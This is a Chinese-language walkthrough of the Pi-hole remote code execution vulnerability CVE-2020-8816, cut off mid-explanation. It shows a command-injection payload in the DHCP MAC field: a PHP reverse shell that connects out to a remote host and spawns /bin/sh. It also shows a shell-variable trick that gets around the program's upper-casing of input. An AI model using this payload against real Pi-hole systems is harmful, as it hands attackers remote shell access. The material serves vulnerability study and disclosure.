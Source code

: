 根据源码中的validMAC()函数，我们得知程序会对用户输入做一个基本的MAC地址格式判断，只要由12个字母或数字组成，就可以通过验证。

-   2、获取p,h,r的小写字符

```{=html}
<!-- -->
```
    SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}

原本的payload应该为：

    aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“target.0-sec.org”,2256);exec(“/bin/sh -i <&3 >&3 2>&3”);’

但是由于程序会对用户输入做一个大写转换，因此，php -r会变成PHP
-R，命令无法识别，因此需要找到一种方式获取p、h、r的小写字符。

可以使用环境变量，变量名都是大写字母，而变量值中可能包含各种小写字母。

在浏览器中进入http://www.0-sec.org/admin，登陆后，选择Setting-\>DHCP选项卡，先试一下PATH变量，输入aaaaaaaaaaaa\$PATH，结果显示：

![1.png](resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId26.png)
